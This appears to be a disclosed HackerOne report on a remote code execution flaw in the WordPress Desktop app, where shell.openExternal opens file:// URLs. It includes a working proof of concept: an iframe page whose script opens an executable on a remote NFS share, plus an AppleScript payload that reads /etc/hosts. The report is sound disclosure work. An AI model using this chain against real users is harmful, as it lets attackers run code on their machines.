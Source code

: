 # Remote Code Execution in Wordpress Desktop

## Report Details
- **Report ID**: 301458
- **URL**: https://hackerone.com/reports/301458
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-12-31T00:08:35.763Z
- **Disclosed**: 2018-04-14T22:09:50.511Z

## Reporter
- **Username**: mattaustin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
An attacker can create a malicious page that when viewed or edited in Wordpress Desktop App will results in remote code execution. 

This issue looks to be around this line of code: 
https://github.com/Automattic/wp-desktop/blob/develop/desktop/window-handlers/external-links/index.js#L38

If shell.openExternal is sent a file:// url it will try to open that file in the default native application (instead of the default browser).  If we pass the an a .app file on MacOS or an exe it will just execute the code. 

We also link to a remote readable NFS mount (or windows share) to point to a remote executable. 

A Wordpress page is created with: 
```
<center><iframe style="border: 0;" src="https://maustin.net/hax/wp_desktop/index.html" width="250" height="250"></iframe></center> 
```

This file has the following code: 
```
   <script>
      // window.open('file:///Applications/Calculator.app');
      window.open('file:///net/192.241.239.91/var/nfs/general/hack2.app')
   </script>
```

The file at file:///net/192.241.239.91/var/nfs/general/hack2.app is a simple applescript Application with the following code:

```
tell application "Terminal"
    do script "cat /etc/hosts"
    display dialog "You just got hacked!"
end tell

do shell script "open -a Calculator"
```

### POC
1. Create the setup described above. 
2. Invite any wordpress.com user to edit. (or wait for them to follow you and click on your site in the "reader")
3. Code is executed when the user views the page. 

See attached video for a working POC. 


### Sugested Fix: 
Before passing a url to shell.openExternal the application should validate that it begins with http:// or https://.

## Impact

An attacker could target any individual with a wordpress.com account by inviting them to be an editor. When they simply view the page in the desktop application the code would run. 

The remote attacker would be able to run any code as the current user on the system once the page is viewed.

In my testing I used a remote wordpress blog (with jetpack) so that I would be able to add an iframe. However I believe with a Business account a custom wordpress plugin could achieve the same result on a wordpress.com hosted account.

## Attachments
- Wordpress_Desktop_RCE.mp4
